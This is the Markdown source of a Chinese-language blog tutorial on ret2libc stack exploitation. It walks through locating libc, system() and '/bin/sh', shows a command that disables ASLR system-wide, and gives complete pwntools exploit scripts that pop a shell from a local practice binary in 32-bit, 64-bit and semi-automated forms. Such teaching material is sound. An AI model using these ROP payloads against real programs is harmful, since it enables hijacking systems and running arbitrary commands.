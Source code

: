 ```yaml
---
title: ret2libc
subtitle: 标准 ROP 漏洞利用
date: 2023-08-18T10:43:24+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


ret2libc 基于 C 标准库中的 `system` 函数。该函数会执行传递给它的任何内容，
这使其成为最佳攻击目标。libc 中的另一个内容是字符串 `/bin/sh` ；如果你将
此字符串传递给 `system` 函数，它会弹出一个 shell。

这就是它的全部内容——将 `/bin/sh` 作为参数传递给 `system` 。

<!--more-->

{{< link href="/pwn_assets/ret2libc.zip" content="ret2libc.zip" title="Download ret2libc.zip" download="ret2libc.zip" card=true >}}

## 0x01 禁用 ASLR

首先，我们将禁用 ASLR。ASLR 随机化 libc 在内存中的地址，这意味着我们无法计算出
`system()` 和 `/bin/sh` 的位置。为了便于你理解一般理论，我们将从禁用它开始。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 0x02 手动利用

### 1x01 获取 libc 地址

幸运的是 Linux 有一个名为 `ldd` 的命令用于动态链接。如果我们用它来查看编译好的 ELF
文件，它会告诉我们它使用的库及其地址。

```bash
$ ldd vuln-32
	  linux-gate.so.1 (0xf7eda000)
	  libc.so.6 => /usr/lib32/libc.so.6 (0xf7c00000)
	  /lib/ld-linux.so.2 => /usr/lib/ld-linux.so.2 (0xf7edd000)
```

`libc.so.6` 是我们需要的 libc 文件，所以 libc 的地址是 `0xf7c00000` 。

{{<admonition type="info">}}

`libc` 地址以及 `system()` 和 `/bin/sh` 的偏移量对你来说可能不同。这不是问题，它只是
意味着你有不同的版本的 `libc` 。

{{</admonition>}}

### 1x02 获取 system() 的地址

为了调用 `system()` ，我们肯定需要它在内存中的地址。为此，我们可以使用 `readelf` 命令。

```bash
$ readelf -s /usr/lib32/libc.so.6 | grep system
  3209: 0004f610    63 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

`-s` 参数告诉 `readelf` 查看当前 ELF 文件的符号表，符号表中的信息只包括 **全局变量
和函数名**。这里我们可以发现 `system()` 距 `libc` 库的偏移量是 `0x4f610` 。

### 1x03 获取 /bin/sh 的地址

由于 `/bin/sh` 只是一个字符串，因此我们可以在刚刚通过 `ldd` 找到的动态链接库的基础上使用
`strings` 指令。注：当将字符串作为参数传递时，你需要传递指向字符串的 **地址**，而不是字符串
的十六进制表示形式，因为这就是 C 语言所规定的方式。

```bash
$ strings -a -t x /usr/lib32/libc.so.6 | grep /bin/sh
  1c4dcd /bin/sh
```

`-a` 告诉它扫描整个文件；`-t x` 告诉它以十六进制格式输出偏移量。

### 1x04 32-bit 漏洞利用

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

libc_addr = 0xf7c00000
system_addr = libc_addr + 0x4f610
shell_addr = libc_addr + 0x1c4dcd

payload = b'A' * 76          # Padding 到 EIP
payload += p32(system_addr)  # system() 的地址
payload += p32(0x0)          # 避免异常
payload += p32(shell_addr)   # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

### 1x05 64-bit 漏洞利用

使用链接到 64-bit 程序的 `libc` 重复上述过程。

注：你必须使用 `pop rdi; ret` gadget 将其放入 RDI 寄存器中，而不是在返回地址之后传递参数。

```bash
$ ROPgadget --binary vuln-64 | grep rdi
[...]
0x00000000004011cb : pop rdi ; ret
[...]
$ ROPgadget --binary vuln-64 | grep rsi
[...]
0x00000000004011c9 : pop rsi ; pop r15 ; ret
[...]
```

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

libc_addr = 0x7ffff7c00000
system_addr = libc_addr + 0x4f760
shell_addr = libc_addr + 0x19fe34

POP_RDI, POP_RSI_R15 = 0x4011cb, 0x4011c9

payload = b'A' * 72          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(shell_addr)   # 传入 /bin/sh 的地址
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0x0) * 2      # 填充 rsi 和 r15
payload += p64(system_addr)  # 把 system() 的地址传入 RIP

p.sendline(payload)

p.interactive()
```

## 0x03 使用 pwntools 实现半自动

pwntools 拥有大量功能，使这一切变得更加简单。

```python {title="exp.py"}
# 32-bit
from pwn import *

context(os='linux', arch='amd64', log_level='info')

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                             # 获取程序正在使用的 libc
libc.address = 0xf7c00000                   # 设置 libc 地址

system_addr = libc.sym['system']            # 获取 system() 的地址
shell_addr = next(libc.search(b'/bin/sh'))  # 获取 /bin/sh 的地址

payload = b'A' * 76                         # Padding 到 EIP
payload += p32(system_addr)                 # system() 的地址
payload += p32(0x0)                         # 避免异常
payload += p32(shell_addr)                  # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

64-bit 的半自动脚本本质上是一样的。

{{<admonition type="tip">}}

如果题目提供了 libc ，也可以这样用：

{{< typeit code=python >}}
libc = ELF('libc.so.6')

print(libc.sym['system'])
{{< /typeit >}}

{{</admonition>}}

{{<admonition type="info">}}

pwntools 可以通过其 ROP 功能进一步简化它，但我不会在这里展示它们。

{{</admonition>}}

